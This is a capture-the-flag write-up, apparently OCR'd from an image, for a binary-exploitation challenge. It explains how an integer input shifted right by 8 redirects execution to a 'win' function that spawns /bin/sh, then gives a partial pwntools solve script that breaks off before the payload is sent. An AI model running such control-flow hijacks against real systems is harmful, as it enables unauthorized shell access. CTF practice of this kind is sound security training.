 # Exploit strategy:

provide any name (e.g., “AAAA”).

when asked for age, send 1074918912 (decimal).

program computes age >> 8 → 0x4011f6 and jumps/calls into win, giving a /bin/sh.

read the flag.

# Implementation (final solve script)
```python
#!/usr/bin/env python3
from pwn import *
import sys, time, os

---------- config ----------

exe = './chal' # local binary (if present)
context.log_level = 'info' # set 'debug' for more verbosity
win_addr = 0x4011f6 # from ghidra / nm
send_X = win_addr << 8 # must send this decimal -> 1074918912
name = b"AAAA"

----------------------------

gdbscript = '''
init-pwndbg
continue
'''

def start(argv=[], *a, **kw):
"""
Robust start helper:
- python3 solve.py -> local binary (if exists)
- python3 solve.py REMOTE host port
- python3 solve.py host port
"""
print("DEBUG: sys.argv =", sys.argv)

if args.GDB:
    if not os.path.exists(exe):
        raise SystemExit("Local exe not found for GDB run.")
    return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)

if 'REMOTE' in sys.argv:
    idx = sys.argv.index('REMOTE')
    if len(sys.argv) > idx + 2:
        host = sys.argv[idx + 1]
        port = int(sys.argv[idx + 2])
        return remote(host, port, *a, **kw)
    if len(sys.argv) > idx + 1 and ':' in sys.argv[idx + 1]:
        host, port = sys.argv[idx + 1].split(':',1)
        return remote(host, int(port), *a, **kw)
    raise SystemExit("Usage: python3 solve.py REMOTE host port")

if len(sys.argv) >= 3:
    try:
        host = sys.argv[1]
        port = int(sys.argv[2])
        return remote(host, port, *a, **kw)
    except Exception:
        pass
```